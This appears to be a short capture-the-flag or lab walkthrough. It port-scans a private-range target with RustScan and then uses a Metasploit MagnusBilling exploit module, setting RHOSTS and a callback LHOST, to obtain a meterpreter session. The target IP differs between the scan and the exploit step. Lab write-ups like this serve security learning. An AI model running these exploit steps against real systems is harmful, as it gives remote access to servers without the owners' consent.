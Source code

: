 #### Target Ip :  10.201.76.54

-----------

RustScan 

rustscan -a 10.201.76.54 -- -sC -sV 

![[Pasted image 20251025174816.png]]

We found open ports :  

Open 10.201.76.54:22  
Open 10.201.76.54:80
Open 10.201.76.54:3306
Open 10.201.76.54:5038

![[Pasted image 20251025183606.png]]

These are the service running on the server.

----------------
Then we found a exploit on msf console and the service was MagnusBilling


msf > search MagnusBilling

![[Pasted image 20251025183737.png]]

msf > use 0

msf >show options

![[Pasted image 20251025184034.png]]

msf >set RHOSTS 10.201.89.202

msf >set LHOST 10.17.17.19

msf >run

Now we get the meterpreter session 

![[Pasted image 20251025184353.png]]


